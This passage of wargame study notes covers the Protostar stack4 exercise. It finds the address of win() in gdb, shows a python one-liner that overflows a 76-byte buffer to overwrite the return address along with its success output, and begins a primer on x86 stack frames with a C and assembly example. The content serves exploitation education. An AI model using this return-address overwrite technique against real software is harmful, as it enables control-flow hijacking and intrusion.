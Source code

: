 
> Now, we find out the address of the win function and use its address as the last 4 bytes in an 80 byte input to the program to crack it.


```bash
(gdb) x win
0x80483f4 <win>:	0x83e58955

```



Answer
```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```









#### Primer about X86 stack frames
- Stack Frames: a region on the stack - purticular to a single function being executed in the call flow - represents its execution environment
  - ie machaaaa, if `win()` function is getting executed in the call flow, the region on the stack representing `win()`, is called stack frame of `win()` -> it represents the execution env of `win()` function
**if the same function is called many times, each instance of calling that function will have its own stack frame on the stack.**
- Stack Frame consist of 
   1. Parameters passed to the function
   2. Return address (Code location to jump to after the function is complete)
   3. Pointer to the previous (Calling function’s) stack frame’s base.
   4. Local variables
Let’s see with the help of a small example how this works. 

```c
int foo(int a)
{
  int x = 2;
  int y = 3;
  x = a + x;
  return x;
}

int main()
{
  int a = 0;
  int b = 1;
  foo(a);
}
```
This will compile to the following assembly code.
```asm
foo:
	push   ebp
	mov    ebp,esp
	sub    esp,0x10
	mov    DWORD PTR [ebp-0x8],0x2
	mov    DWORD PTR [ebp-0x4],0x3
	mov    eax,DWORD PTR [ebp+0x8]
	add    DWORD PTR [ebp-0x8],eax
	mov    eax,DWORD PTR [ebp-0x8]
	leave
	ret
```